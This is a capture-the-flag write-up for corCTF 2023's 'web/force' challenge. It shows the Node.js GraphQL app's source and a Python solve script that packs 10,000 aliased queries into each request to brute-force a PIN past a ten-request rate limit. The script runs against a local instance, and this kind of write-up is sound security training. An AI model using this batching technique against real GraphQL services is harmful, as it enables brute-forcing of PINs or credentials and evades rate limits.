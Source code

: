 # corCTF 2023
## web/force

In this challenge we are given tarball file to be download. It contains the source code of the web app that we can run as Docker using the Dockerfile provided.

```Dockerfile
FROM node:18

WORKDIR /app
COPY src/package* ./
RUN npm ci

COPY src/ .

CMD ["node", "--expose-gc", "web.js"]
```

We can then build the image and run it for testing. I use localhost port 8090 for this container.

```bash
> docker build -t web/force .                                                              docker.io/library/node:18@sha256:c85dc4392f44f5de1d0d72dd20a088a542734445f99bed7aa8ac895c706d370d    
writing image sha256:7d7d7a1e650b11de69f6cd2deda18c7c5647c127422c8234927bb25a7f236a34
naming to docker.io/web/force
> docker run -d -p 8090:80 web/force
55c31fd6a62e762300677d9e8cbd8bc9063935860a203e1052d253b106fa8f3b
```

Navigating using the browser we are greeted with the following page

!(img/force_main.png)

At first I thought the query in the text box is just a normal JSON format. But after looking into the source code I realized that it is GraphQL query. Before trying any exploit, I first try web app as intended to see how it behaves.

!(img/force_first_try.png)

Knowing nothing about GraphQL, I do some research online on how GraphQL works and looking up if there are any known vulnerabilities. One of the features of GraphQL is batch querying where you can do several queries at the same time using only one HTTP request. Thus, this makes for a suitable attack vector for bruteforcing the pin combination. I then look to the `web.js` for more information of the app.

```javascript
import fastify from 'fastify'
import mercurius from 'mercurius'
import { randomInt } from 'crypto'
import { readFile } from 'fs/promises'

const app = fastify({
    logger: true
});

const index = await readFile('./index.html', 'utf-8');
const secret = randomInt(0, 10 ** 5); // 1 in a 100k??
let requests = 10;

setInterval(() => requests = 10, 60000);

await app.register(mercurius, {
    schema: `type Query {
        flag(pin: Int): String
    }`,
    resolvers: {
        Query: {
            flag: (_, { pin }) => {
                if (pin != secret) {
                    return 'Wrong!';
                }
                return process.env.FLAG || 'corctf{test}';
            }
        }
    },
    routes: false
});

app.get('/', (req, res) => {
    return res.header('Content-Type', 'text/html').send(index);
});

app.post('/', async (req, res) => {
    if (requests <= 0) {
        return res.send('no u')
    }
    requests --;
    return res.graphql(req.body);
});

app.listen({ host: '0.0.0.0', port: 80 });
```

In order to get the flag, the pin we provide need to be the same as the secret value, which is the correct pin. From the code, we can see that the secret value is between 1 and 100k and the maximum number of request that the app accept before refusing to try the query is 10. From this information we can make a batch query with 10k pins each request. To simplify this, I make a python script.

```python
import requests
import json

min = 0
max = 10000

def batch_loop(min, max):
    data = ''
    for x in range(min,max,1):
        data = data + f'batch{x+1}:flag(pin:{x})\r\n'

    return data
    
headers = {
    'Content-Type': 'text/plain;charset=UTF-8'
}

while True:
    data = batch_loop(min, max)
    data_g = '{\n'+data+'\n}'
    
    r = requests.post('http://localhost:8090',headers=headers,data=data_g)
    
    if 'corctf' in r.text:
        jsonFormat = json.loads(r.text)
        for key, val in jsonFormat['data'].items():
            if val != 'Wrong!':
                print(f'flag: {val}')
        break
        
    min = min + 10000
    max = max + 10000

    if max > 100000:
        print('failed.')
        break
    else:
        print('retrying...')
```

This script is probably not the most optimized script but it gets the job done. Running this we can get the flag.

```bash
> python solve.py
retrying...
retrying...
retrying...
retrying...
retrying...
retrying...
retrying...
retrying...
retrying...
flag: corctf{test}
```

Running this in the challenge's instance we'll get the flag: 
`corctf{S                T                  O               N                   K                 S}`
